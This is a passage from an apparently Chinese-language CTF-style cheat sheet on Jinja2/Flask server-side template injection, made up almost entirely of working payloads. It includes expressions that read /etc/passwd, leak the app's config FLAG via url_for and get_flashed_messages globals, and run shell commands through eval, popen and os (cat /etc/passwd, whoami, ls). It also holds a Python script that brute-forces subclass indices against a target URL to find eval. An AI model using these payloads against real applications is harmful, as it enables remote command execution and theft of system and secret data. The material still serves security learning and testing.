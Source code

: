   ```py
  ["get_data"](0,"/etc/passwd")
  调用get_data方法，传入参数0和文件路径
  name={{''.__class__.__mro__[1].__subclasses__()[79]["get_data"](0,"/etc/passwd")}}
  ```

  读取配置文件下的FLAG

  ```py
  {{url_for.__globals__['current_app'].config.FLAG}}
  {{get_flashed_messages.__globals__['current_app'].config.FLAG}}
  ```

* 内建函数eval执行命令

  内建函数：Python在执行脚本时自动加载的函数

  Python脚本查看可利用内建函数eval的模块

  ```py
  import requests
  url = input('请输入URL：')
  for i in range(500):
      data = {"name":"{{().__class__.__base__.__subclasses__()["+str(i)+"].__init__.__globals__['__builtins__']}}"}
      try:
          response=requests.post(url,data=data)
          # print(response.text)
          if response.status_code == 200:
              if 'eval' in response.text:
                  print(i)
      except:
          pass
  ```

  ```py
  POC:
      {{().__class__.__base__.__subclasses__()[65].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("cat /etc/passwd").read()')}}
  __builtins__提供对Python的所有“内置”标识符的直接访问
  eval()计算字符串表达式的值
  popen()执行一个shell以运行命令来开启一个进程(system没有回显)
  ```

* os模块执行命令

  在其他函数中直接调用os模块

  ```python
  通过config，调用os
  {{config.__class__.__init__.__globals__['os'].popen('whoami').read()}}
  通过url_for，调用os
  {{url_for.__globals__.os.popen('whoami').read()}}
  在已经加载os模块的子类里直接调用os模块
  {{''.__class__.__bases__[0].__subclasses__()[199].__init__.__globals__['os'].popen("ls -l /opt").read()}}
  ```
